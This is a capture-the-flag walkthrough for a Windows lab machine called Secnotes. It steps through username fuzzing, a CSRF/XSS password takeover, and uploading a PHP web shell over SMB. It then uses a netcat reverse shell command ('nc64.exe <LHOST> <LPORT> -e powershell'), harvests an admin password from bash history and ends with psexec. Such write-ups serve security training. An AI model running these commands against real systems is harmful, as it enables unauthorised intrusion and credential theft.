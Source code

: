 # Secnotes

<details>
<summary><strong>Summary</strong></summary>
Windows machine that uses SQL injection and some XSS with the logins for access to the notes app. Escalate privileges from there using a root shell installed on the machine. Scan the machine and find a login page on port 80 that is running php version 7.2.7. Check for valid usernames using a fuzzing attack with the `wfuzz` tool and find `tyler`. Find that when a note is created, the website doesn't sanitize inputs and executes HTML directly. In the contactUs form, find that the command is run in powershell. Use this and the `Change Password` URL to change tyler's password. Once in Tyler's notes, find an smb share. Use that to gain initial access and a shell. Find bash installed on the machine and run it. Find the `.bash_history` file and find an administrator password. Exploit it to get root.

<summary><strong>What I Learned</strong></summary>
<body>

1. Always check the desktop directory of the user you just compromised. In these machines, there is usually good information there. I missed it this time and had to go back an hour later.
2. A bash shell running in windows can often get you root access to files that the inital user does not have access to.
3. The SMB share goes both ways. You can use inital access to upload a file like netcat or a meterpreter shell.
</body>
</details>

### Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Find ports 80, 445, and 8808 are open

#### Scan the open ports

![alt text](image.png)
![alt text](image-1.png)

Go to the website on port 80
`http://10.129.244.217/login.php`

#### Check for valid usernames using wfuzz

- find the username "tyler"

```
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." -u http://10.129.244.217/login.php
```

![alt text](image-3.png)

#### Create a new user and Login

Clicking around, you find the change password API on the page does not include verifying your old password, so that could be exploited later.

- If the request is changed from a POST to a GET, you can change the password.
  ![alt text](image-4.png)

#### Create a note and add \<center\> tags to the content of the pages

![alt text](image-5.png)

#### Notes and their content are centered. HTML is not sanitized at all, so website is vulnerable to XSS

![alt text](image-6.png)

Create an html file with an iframe in it linking to the url in the password reset page from burp.
![alt text](image-10.png)

Test it on yourself and find that the link takes you to the page but doesn't fill in any information or click any links. Try sending it to tyler directly.
![alt text](image-8.png)

It works and you can now login as tyler using the `password112` password

Check smb shares on the target machine using the credentials found in tyler's notes.
![alt text](image-9.png)

Login to the smb share using the credentials

`smbclient \\\\10.129.33.69\\new-site -U tyler`

Try to get a reverse shell by uploading a file to the website using the SMB share
`revsh.php`  
Use the put command from the smb share to upload the file.
![alt text](image-11.png)

Run it from the browser and website using
`http://10.129.44.254:8808/revsh.php?fakename=whoami`

Download netcat64 to get a better shell than the smbclient  
https://eternallybored.org/misc/netcat/

Use the smbshare to upload it to the target machine  
`put nc64.exe`

Run the netcat shell using  
`http://<RHOST>:8808/request.php?fakename=nc64.exe <LHOST> <LPORT> -e powershell`

Get a reverse shell  
![alt text](image-12.png)

Check the `bash.lnk` file  
Bash is installed on this windows machine, so run it using `bash`  
![alt text](image-13.png)

check the user and find you are running as the root user  
![alt text](image-14.png)

`cd` to mnt (mount) which is where the C drive is
Try `cd /root`
![alt text](image-15.png)

find the `.bash_history` file which contains an admin user and password
![alt text](image-16.png)

Get a root shell using  
`impacket-psexec administrator@<IP_ADDR>`
